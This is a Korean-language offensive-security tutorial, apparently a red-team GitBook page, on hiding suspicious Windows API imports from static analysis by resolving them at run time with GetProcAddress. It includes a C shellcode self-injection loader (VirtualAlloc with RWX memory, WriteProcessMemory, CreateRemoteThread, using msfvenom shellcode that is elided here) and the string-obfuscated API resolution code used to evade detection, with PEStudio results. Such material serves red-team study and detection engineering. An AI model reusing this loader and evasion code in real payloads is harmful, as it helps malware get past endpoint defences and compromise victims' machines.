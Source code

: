 # 런타임 다이나믹 링킹 (Run-time Dynamic Linking)

PE 파일 구조에서 Import Address Table (IAT)는 해당 파일이 사용하는 DLL의 exported 함수 포인터들을 기록해놓은 부분이다. IAT는 PE 파일 실행시 윈도우 로더 (Windows Loader) 가 PE파일을 메모리에 로드하며 해당 파일이 사용하는 DLL과 exported 함수들을 같이 맵핑 하기 위해 사용된다.

페이로드 제작시 대부분의 윈도우 API들은 직접/간접 시스템 콜을 사용하기 때문에 IAT에 수상한 윈도우 API 함수가 기록될 일은 없다. 하지만 항상 직접/간접 시스템 콜을 사용할 수 있는 것도 아니고, 가끔씩 순정 윈도우 API를 페이로드에 사용해야만 할 때가 있다. 이때 IAT에 수상한 윈도우 API(`WriteProcessMemory`, `CreateRemoteThreadEx` , 등)들이 기록되어 있다면 정적 분석에 걸리게 된다.

Run-time Dynamic Linking (런타임 다이나믹 링킹) 은 런타임 중 동적으로 DLL에서 exported 함수를 로드해 사용하는 기법이다. 이 기법을 사용하면 IAT에 수상한 윈도우 API들이 기록되지 않기 때문에 정적 분석을 통과할 확률이 높아진다. 물론 여전히 윈도우 API를 사용하는 것이고, 시스템 콜을 사용하는 것이 아니기 때문에 유저랜드 후킹이나 다른 방어 기법들에 걸리게 된다. 따라서 런타임 다이나믹 링킹은 최소한의 방어 우회 기법이다 정도로만 생각해야한다.

### 코드

런타임 다이나믹 링킹의 코드는 다음과 같은 형태로 이루어져있다.

```
// 윈도우 API 함수 포인터 구조체 생성 
typedef LPVOID(WINAPI* _VirtualAlloc)(LPVOID, SIZE_T, DWORD, DWORD);

// 필요한 문자열 unsigned char 형태로 저장 
unsigned char sKernel32[] = { 'K','e','r','n','e','l','3','2',0x0 };
unsigned char sVirtualAlloc[] = { 'V','i','r','t','u','a','l','A','l','l','o','c',0x0 };

// 런타임 중 DLL의 모듈 핸들을 구한 뒤 exported 함수의 핸들을 구함. 그 뒤 윈도우 API 함수 포인터 구조체로 캐스팅 (형변환)
_VirtualAlloc pVirtualAlloc = (_VirtualAlloc)(GetProcAddress(GetModuleHandleA((LPCSTR)sKernel32), (LPCSTR)sVirtualAlloc));

... 

// 4. 이제부터 VirtualAlloc 대신 pVirtualAlloc 을 사용 
```

1. 윈도우 API 함수와 동일한 인자 및 반환을 하는 함수 포인터 (`WINAPI*`) 구조체를 생성한다.
2. 그 뒤, 필요한 문자열을 `unsigned char` 형태로 저장한다. 예를 들어 DLL의 이름인 `kernel32.dll / ntdll.dll` 이나 exported 함수 이름인 `VirtualAlloc, WriteProcessMemory, MiniDumpWriteDump` 등이다.
3. `GetModuleHandleA` 와 DLL 이름 문자열을 이용해 모듈의 핸들을 얻는다. 그 뒤, 모듈의 핸들과 exported 함수 이름을 `GetProcAddress` 함수에다 집어넣어 함수 포인터를 얻는다.
4. 이 함수 포인터를 #1 번에서 만들어 놨던 윈도우 API 함수 포인터 구조체로 캐스팅 (형변환) 한다.
5. 이제부터 해당 윈도우 API 함수를 사용하고 싶다면, #4번에서 만든 함수 포인터를 사용하면 된다.

\#3 \~ #4 번에서 런타임 중 `GetModuleHandleA` 와 `GetProcAddress` 함수가 실행되며 함수 포인터를 획득하고, 이를 윈도우 API 함수 포인터 구조체로 캐스팅하게 된다. 즉, 정적인 PE 파일 상태에서의 IAT에는 아무것도 없고, 오로지 파일이 실행돼 메모리에 로드 되고 런타임에 들어갔을 때 사용하고자 하는 윈도우 API를 함수 포인터 형태로 사용할 수 있게 된다.

### 실습

먼저 런타임 다이나믹 링킹이 적용되지 않은 간단한 셀프 인젝션 코드를 살펴본다.

```
#include <iostream>
#include <windows.h>

int main()
{
	// msfvenom -p windows/x64/exec CMD="calc.exe" -f c
	unsigned char buf[] = < ... 쉘코드 ... >

	// VirtualAlloc on self 
	HANDLE hProc = GetCurrentProcess();
	LPVOID hAlloc = (LPVOID)VirtualAlloc(NULL, sizeof(buf), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	if (hAlloc == NULL) {
		printf("[-] VirtualAlloc failed: %d\n", GetLastError());
		return 1;
	}
	
	// WriteProcessMemory on self 
	SIZE_T* lpNumberOfBytesWritten = 0;
	if (!WriteProcessMemory(hProc, hAlloc, (LPVOID)buf, sizeof(buf), lpNumberOfBytesWritten)) {
		printf("[-] WPM failed: %d\n", GetLastError());
		return 1;
	}

	// CRT and execute the shellcode 
	DWORD threadId = 0; 
	HANDLE hThread = CreateRemoteThread(hProc, NULL, 0, (LPTHREAD_START_ROUTINE)hAlloc, NULL, 0, (LPDWORD)(&threadId));
	if (hThread == NULL) {
		printf("[-] CRT failed: %d\n", GetLastError());
		return 1; 
	}
	
	// WaitForSingleObject 
	WaitForSingleObject(hThread, 1000);

	return 0; 
}
```

컴파일 후 PEStudio 로 해당 파일을 살펴보면 IAT에 수상한 윈도우 API인 `WriteProcessMemory` 와 `CreateRemoteThread` 가 보인다. "Flag" 도 총 6개로, 수상한 윈도우 API 6개가 IAT에 기록되어 있다는 것을 보여준다.

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

이제 런타임 다이나믹 링킹을 적용해보자. `WriteProcessMemory` 와 `CreateRemoteThread` 에 적용한 뒤, 다시 컴파일을 한다.

```
unsigned char sKernel32[] = { 'K','e','r','n','e','l','3','2',0x0 };

typedef BOOL(WINAPI* _WriteProcessMemory)(HANDLE, LPVOID, LPCVOID, SIZE_T, SIZE_T*);
unsigned char sWriteProcessMemory[] = { 'W','r','i','t','e','P','r','o','c','e','s','s','M','e','m','o','r','y',0x0 };
_WriteProcessMemory pWriteProcessMemory = (_WriteProcessMemory)(GetProcAddress(GetModuleHandleA((LPCSTR)sKernel32), (LPCSTR)sWriteProcessMemory));

typedef HANDLE(WINAPI* _CreateRemoteThread)(HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, LPVOID, DWORD, LPDWORD);
unsigned char sCreateRemoteThread[] = { 'C','r','e','a','t','e','R','e','m','o','t','e','T','h','r','e','a','d',0x0 };
_CreateRemoteThread pCreateRemoteThread = (_CreateRemoteThread)(GetProcAddress(GetModuleHandleA((LPCSTR)sKernel32), (LPCSTR)sCreateRemoteThread));

[ ... 나머지 코드 동일 ... ]
```

다시 PEStudio 로 살펴보면, IAT 에서 `WriteProcessMemory` 와 `CreateRemoteThread` 가 더이상 보이지 않는다. "Flag" 도 6개에서 4개로 줄었다.

<figure><img src="../.gitbook/assets/image (104).png" alt=""><figcaption></figcaption></figure>

런타임 다이나믹 링킹은 간단한 정적 분석을 우회하기 위한 용도로만 사용되야한다. 중요한 윈도우 API의 경우 직접/간접 시스템 콜을 이용하거나 수동적 맵핑을 이용한 방법을 사용하도록 한다. 별로 중요하지 않지만 자주 사용되고, 직/간접 시스템 콜을 사용할 수 없는 윈도우 API (`Process32Next` 등)의 경우, 런타임 다이나믹 링킹을 적용하면 IAT 목록을 수상하지 않게 만들 수 있다.

### References

{% embed url="https://0xrick.github.io/win-internals/pe6" %}

{% embed url="https://vanmieghem.io/blueprint-for-evading-edr-in-2022" %}
